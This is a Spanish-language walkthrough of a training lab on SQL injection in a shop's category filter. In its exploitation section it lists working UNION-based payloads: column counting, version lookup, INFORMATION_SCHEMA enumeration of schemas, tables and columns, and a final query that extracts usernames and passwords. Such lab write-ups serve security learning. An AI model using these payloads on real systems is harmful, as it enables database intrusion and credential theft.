






# Lab: SQL injection attack, listing the database contents on non-Oracle databases

## Información dada

* Vulnerabilidad sql injection en el filtro de categoria de productos.
* Objetivo: Determinar nombre de la tabla que contiene a los usuarios para obtener los campos de usuario y contraseña
* Usuario conocido: Administrator

## Exploración

La pagina cuenta con una serie de enlaces que recargan la pagina para mostrar los productos de la categoria seleccionada. Dichos enlaces realizan una peticion al endpoint `filter` usando el parametro `category`




---


## Explotacion

La aplicación acepto la inyeccion de la forma `Gifts'--`, por lo que, se descarto que el motor de bdd usado fuera MySQL


Para determinar la cantidas de columnas tomadas en la consulta, se inyecto `'+ORDER+BY+N--` , y se incremento `N`, hasta que hubo un cambio en el comportamiento de la pagina. Se determino que fueron 2 columnas.


Para la obtencion de la version, se consulto la funcion `version()`, inyectando `Gifts'+UNION+SELECT+'A_DATO',version()--dsa`




Para la obtencion de los esquemas, se inyecto `Gifts'+UNION+SELECT+'A_NombreSchema',SCHEMA_NAME+FROM+INFORMATION_SCHEMA.SCHEMATA--`




Para la obtencion de las tablas del esquema `public`, se inyecto `Gifts'+UNION+SELECT+'A_NombreTabla',TABLE_NAME+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA='public'+ORDER+BY+1-- `



Para la obtencion de las columnas correspondientes a la tabla `users_otwrnm`, se inyecto `Gifts'+UNION+SELECT+'A_NombreColumna',COLUMN_NAME+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users_otwrnm'+ORDER+BY+1--`



Datos recabados:
```
Motor/Version: PostgrSQL 12.22
Esquemas: public, pg_catalog
Tablas(esquema public): products, users_otwrnm 
Columnas(tabla user_otwrnm): email,username_ymxoje,password_bjiqxi
```

Para la obtencion de las credenciasles, se inyecto `Gifts'+UNION+SELECT+username_ymxoje,password_bjiqxi+FROM+users_otwrnm+ORDER+BY+2--`



